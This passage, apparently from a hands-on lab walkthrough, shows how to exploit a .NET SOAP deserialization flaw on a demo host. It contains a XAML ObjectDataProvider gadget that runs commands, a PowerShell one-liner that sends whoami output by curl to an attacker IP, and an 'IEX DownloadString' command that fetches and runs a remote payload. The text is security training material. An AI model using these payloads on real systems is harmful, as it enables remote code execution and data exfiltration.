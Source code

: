 ```bash
        xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation"
        xmlns:x="http://schemas.microsoft.com/winfx/2006/xaml"
        xmlns:System="clr-namespace:System;assembly=mscorlib"
        xmlns:Diag="clr-namespace:System.Diagnostics;assembly=system"&gt;
        &lt;ObjectDataProvider x:Key="" ObjectType="{x:Type Diag:Process}" MethodName="Start" &gt;
          &lt;ObjectDataProvider.MethodParameters&gt;
            &lt;System:String&gt;cmd&lt;/System:String&gt;
            &lt;System:String&gt;"/c ping 10.10.27.2"&lt;/System:String&gt;
          &lt;/ObjectDataProvider.MethodParameters&gt;
        &lt;/ObjectDataProvider&gt;
      &lt;/ResourceDictionary&gt;
    </ForegroundBrush>
  </a1:TextFormattingRunProperties>
</SOAP-ENV:Envelope>


```

> [Note] Make sure to place the IP address of your attacker machine in the above command.


Before sending the above request, use the following command to listen for ICMP requests/replies:

Command:
```bash
tcpdump -i any icmp
```

Send the request to the vulnerable SOAP endpoint:

By the time the crafted request is sent, we can notice ICMP traffic reaching our sniffer from the remote target!


Task 3. Get command output using an out-of-band channel

There are many methods to achieve that goal. We will do the task using PowerShell. First, we will create the following snippet and then host it using Python's SimpleHTTPServer module.
```bash
$c=whoami;curl http://10.10.27.2:445/$c
python3 -m http.server 445
```

> [Note] Make sure to place the IP address of your attacker machine in the above command.


And finally, the following command is injected into the serialized payload:
```powershell
powershell -exec Bypass -C "IEX (New-Object Net.WebClient).DownloadString('http://10.10.27.2:445/payload.txt')"
```

> [Note] Make sure to place the IP address of your attacker machine in the above command.

The request for out-of-band data exfiltration via command execution is:
```bash
POST /VulnerableEndpoint.rem HTTP/1.1
Host: demo.ine.local:1234
SOAPAction: something
Content-type: text/xml
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://demo.ine.local/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Length: 1478

<SOAP-ENV:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
```